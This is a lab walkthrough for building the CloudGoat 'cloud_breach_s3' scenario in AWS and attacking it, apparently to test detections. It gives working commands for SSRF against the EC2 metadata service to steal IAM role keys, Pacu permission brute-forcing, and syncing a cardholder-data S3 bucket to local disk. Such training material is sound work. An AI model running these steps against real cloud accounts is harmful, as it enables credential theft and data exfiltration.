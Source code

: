### Guide Notes
- There are other ways to install the tools and will depend on distro.
- Setting up the AWS profile may very based on an organizations requirements. For instance SSO would vary between org.

### Requirments
- Linux or MacOS 
  - In this guide a new Ubuntu VM was created in VM Fusion.  This guide goes through setting up the Ubuntu VM.
- Python3.6+ is required.
- Terraform >= 0.14 installed and in your $PATH.
- The AWS CLI installed and in your $PATH, and an AWS account with sufficient privileges to create and destroy resources.
  - AWS [Named profile configured](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html)

### Install system prerequisites (may already be installed) 

```bash
sudo apt-get update && sudo apt install -y ssh vim net-tools curl git python3-pip 
```

### Install tools for attack (may already be installed) 
- Install awscli
   - Download the package
     ```bash
     curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
     ```
   - Unzip the installer 
     ```bash
     unzip awscliv2.zip
     ``` 
   - Run the install program
     ```bash
     sudo ./aws/install
     ```
- Install terraform
   - Terraform Prerequisites 
     ```bash
     sudo apt-get update && sudo apt-get install -y gnupg software-properties-common
     ```
   - Add the HashiCorp GPG key 
     ```bash
     curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
     ```
   - Add the official HashiCorp Linux repository 
     ```bash
     sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
     ```  
   - Update to add the repository, and install the Terraform CLI 
     ```bash
     sudo apt-get update && sudo apt-get install terraform
     ```

### Install Cloudgoat
  - Use git to clone the Cloudgoat repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/cloudgoat.git ~/cloudgoat && cd ~/cloudgoat
     ```
  - Install the Cloudgoat dependencies 
     ```bash 
     pip3 install -r ./core/python/requirements.txt && chmod u+x cloudgoat.py
     ```

### Install Pacu
  - Use git to clone the Pacu repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/pacu.git ~/pacu && cd ~/pacu
     ```
 - Install the Pacu dependencies 
     ```bash 
     pip3 install -r requirements.txt
     ```

### Setup AWS Profile
- Setup AWS profile for Cloudgoat.  This account will need admin access in AWS.  This will create or add a new profile in ```~/.aws/config``` and ```~/.aws/credentials```

- You will be prompted for ```Access Key ID, AWS Secret Access Key, Default region name, Default output format```
  ```bash
  aws configure --profile cloudgoat
  ```  
- Make the new aws profile your default 
  ```bash 
  export AWS_PROFILE=cloudgoat
  ```
- Verify credentials are working
  ```bash
   aws sts get-caller-identity
  ```
![awsprofile](./images/awsprofile.png)
### Setup Cloudgoat
  - Run Cloudgoat config profile from home directory and set default profile.  You will be prompted to enter an AWS profile from the previous step which we called ```cloudgoat```.  This is how cloudgoat will access AWS.
     ```bash
     ~/cloudgoat/cloudgoat.py config profile
     ```
  - Run Cloudgoat config whitlelist
     ```bash
     ~/cloudgoat/cloudgoat.py config whitelist --auto
     ```

### Setup vulnerable infrastructure with Cloudgoat
Now that the tools are seutp we will use Cloudgoat to setup vulnerable infastuecure in AWS.  This will create a scenario with a misconfigured reverse-proxy server in EC2. 

  - Run the attack scenario 
     ```bash
     ~/cloudgoat/cloudgoat.py create cloud_breach_s3
     ```

![Cloudgoat](./images/cloudgoatout.png)

- ***Copy the response to a text file*** you will need the EC2 IP

### Start attack
At this point we have created vulnerable infrastucute in AWS using Cloudgoat.  Starting as an anonymous outsider with no access or privileges, exploit a misconfigured reverse-proxy server to query the EC2 metadata service and acquire instance profile keys. Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

- Replace ```<ec2-ip-address>``` with the IP address from the previoues step to get a role name.  ***Copy the response to a text file*** as you will need the role name for the next attack
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
 ```
 
![role](./images/role.png)

- Replace ```<ec2-ip-address>``` and ```<ec2-role-name>``` from the previous steps to get the keys. ***Copy response to text file*** as you will need these stolen crendentials
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
 ```

![ssrf2](./images/ssrf2.png)  
  
- Next we will use pacu to do discovery with the stolen crendentials
  - Start pacu from the shell session by running ```~/pacu/cli.py```
  - Create new session in pacu named ```cloud_breach_s3```
  - Set the keys using ```set_keys``` from the pacu session using the stolen credentials from the previous step

![pacukeys](./images/pacukeys.png)

- Use pacu to start disocvery using the following modules
  - ```run aws__enum_account``` Get account details:  permission denied 
  - ```run iam__enum_permissions``` Get permissions for IAM entity:  permission denied
  - ```run iam__enum_users_roles_policies_groups``` Get group polices for IAM entity:  permission denied
  - ```run iam__bruteforce_permissions``` Brute force for access to services: **BINGO!**

![output](./images/output.png)

- The stolen credentials have full access to S3
  - Exit pacu by typing ```exit``` and return to attack
- Create a new aws profile with stolen credentials
 ```bash
 aws configure --profile cloud_breach_s3
 ```
 - Set the ```AWS Access Key ID``` and ```AWS Secret Access Key``` using the stolen crendentials
 - Set the "Default region" name and the "Default output" format to ```json```
 - Manually add the ```aws_session_token``` to the aws credentails file (use i for insert mode then esc :wq to save and close)
   ```bash
   vi  ~/.aws/credentials
   ```
![sestoken](./images/sestoken.png)

- List and search buckets the stolen credentails have access to
   ```bash
   aws s3 ls --profile cloud_breach_s3
   ```
![list](./images/list.png)
- Download data from the ``cardholder-data`` bucket to local system home directory.  Replace ```<bucket-name>``` with the bucket to download data
   ```bash
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3
   ```
- Change to home directory and perfom list to verify data was downloaded
   ```bash
   cd && ls
   ```
![download](./images/download.png)
- Remove vulnerable infrastructure
   ```bash
   ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3
   ```
- Attack had been completed.  Review the detections in dfaws dashboard.  
